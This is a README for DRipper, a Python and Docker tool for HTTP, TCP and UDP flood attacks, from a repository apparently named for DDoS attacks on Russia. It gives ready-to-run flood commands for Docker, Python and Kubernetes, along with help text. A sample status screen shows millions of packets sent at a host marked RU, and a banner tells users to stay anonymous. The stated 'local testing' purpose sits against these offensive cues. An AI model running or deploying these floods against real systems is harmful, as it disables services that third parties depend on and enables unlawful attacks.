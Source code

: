 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or better
- Docker (optional) if you'd like to run script with docker

## How it looks

```bash
                                                                                
              ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗               
              ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║               
              ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝               
              ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗               
              ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║               
              ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝               
                                                          v2.0.0                
                                                                                
        It is the end user's responsibility to obey all applicable laws.        
        It is just like a server testing script and Your IP is visible.         
                                                                                
                      Please, make sure you are ANONYMOUS!                      
                                                                                
 ────────────────────────────────────────────────────────────────────────────── 
  Description                       Status                                      
 ────────────────────────────────────────────────────────────────────────────── 
  Start Time                        2022-02-24 04:00:00                         
  Your Public IP / Country          131.*.*.* / AR                              
  Host IP / Country                 192.168.0.1:80 / RU                        
  Load Method                       UDP                                         
 ────────────────────────────────────────────────────────────────────────────── 
  Threads                           50                                          
  vCPU Count                        16                                          
  Random Packet Length              True / Max length: 2048                     
 ────────────────────────────────────────────────────────────────────────────── 
  CloudFlare DNS Protection         Not protected                               
  Last Availability Check           04:10:52                                    
  Host Availability                 Accessible in 21 of 21 zones (100%)         
 ────────────────────────────────────────────────────────────────────────────── 
  UDP Statistic                                                                 
 ────────────────────────────────────────────────────────────────────────────── 
  Duration                          0:12:11                                     
  Sent Packets                      10,332,191                                     
  Sent Bytes                        2.22 GB                                   
  Connection Success                2                                           
  Connection Failed                 29                                          
  Connection Success Rate           6%                                          
 ────────────────────────────────────────────────────────────────────────────── 
                       Press CTRL+C to interrupt process.                       
                                      ...                                       
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `python DRipper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: python DRipper.py [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  port (default: 80)
  -t THREADS, --threads=THREADS
                        threads (default: 100)
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN
                        Send random packets with random length (default: 1
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48)
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp (default), tcp, http
  -s HOST, --server=HOST
                        Attack to server IP

Example: python DRipper.py -s 192.168.0.1 -p 80 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m http

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m tcp -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m upd -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install python dependencies:
pip install -r requirements.txt

# Run script
python -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md
